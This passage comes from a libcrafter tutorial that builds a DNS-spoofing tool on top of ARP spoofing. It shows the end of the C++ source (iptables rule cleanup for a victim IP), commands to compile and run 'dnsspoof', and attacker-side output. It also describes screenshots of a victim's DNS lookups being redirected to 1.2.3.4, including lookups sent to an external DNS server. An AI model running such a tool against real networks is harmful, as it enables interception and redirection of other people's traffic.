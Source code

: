 ```
	system(string("/sbin/iptables -D FORWARD -s " + victim_ip +
			      " -p udp --dport " + StrPort(dst_port) + " -j DROP").c_str());
	system(string("/sbin/iptables -D FORWARD -d " + victim_ip +
			      " -p udp --sport " + StrPort(dst_port) + " -j DROP").c_str());
}
```

Compile and run the program:
```
g++ dnsspoof.cpp -o dnsspoof -lcrafter
sudo ./dnsspoof
```

You should see something like this on your screen:

```
[@] --- ARP Spoofer 
[@] Attacker's MAC address = 1c:65:9d:0f:*:*
[@] --- Victim network 
 IP : 192.168.1.8 ; MAC : 08:00:27:28:*:*
[@] --- Target network 
 IP : 192.168.1.1 ; MAC : 00:02:cf:7b:*:*
[@] Spawning the sniffer, redirecting the traffic... 
```

This is a sreenshoot of the victim machine performing a DNS query of the "www.google.com.ar" host before and after the attack . As you can see, after we execute the program, the IP returned by `nslookup` is the one provided in the above code (1.2.3.4).

![http://figures.libcrafter.googlecode.com/git/DNSSpoof.png](http://figures.libcrafter.googlecode.com/git/DNSSpoof.png)

On our machine, the program will print a message notifying the action:

```
[@] --- ARP Spoofer 
[@] Attacker's MAC address = 1c:65:9d:0f:*:*
[@] --- Victim network 
 IP : 192.168.1.8 ; MAC : 08:00:27:28:*:*
[@] --- Target network 
 IP : 192.168.1.1 ; MAC : 00:02:cf:7b:*:*
[@] Spawning the sniffer, redirecting the traffic... 
[@] Query received -> Host Name = www.google.com.ar
[+] ---- Spoofed request (google) -> Host Name = www.google.com.ar
```

Now, lets try to perform the same attack but changing the DNS server on the victim machine by other which is not located in the same LAN (for example an OPENDNS server).

![http://figures.libcrafter.googlecode.com/git/DNSSpoofExternal.png](http://figures.libcrafter.googlecode.com/git/DNSSpoofExternal.png)

As you can see, the attack still works, because the IP address 192.168.1.1 belongs to the router.